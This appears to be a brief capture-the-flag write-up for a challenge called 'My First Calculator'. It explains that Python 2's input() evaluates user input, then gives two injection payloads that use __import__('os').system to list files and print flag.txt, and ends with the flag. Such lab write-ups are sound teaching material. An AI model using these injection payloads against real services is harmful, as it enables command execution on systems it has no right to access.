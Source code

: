 # My First Calculator

By entering anything other than a number we see it's running `input()` with python2, which is basically equivalent to `eval(input())` on python3
So uhhhh just


` __import__('os').system('ls')`


oh hey flag.txt


`__import__('os').system('cat flag.txt')`


#### Flag:flag{please_use_python3}
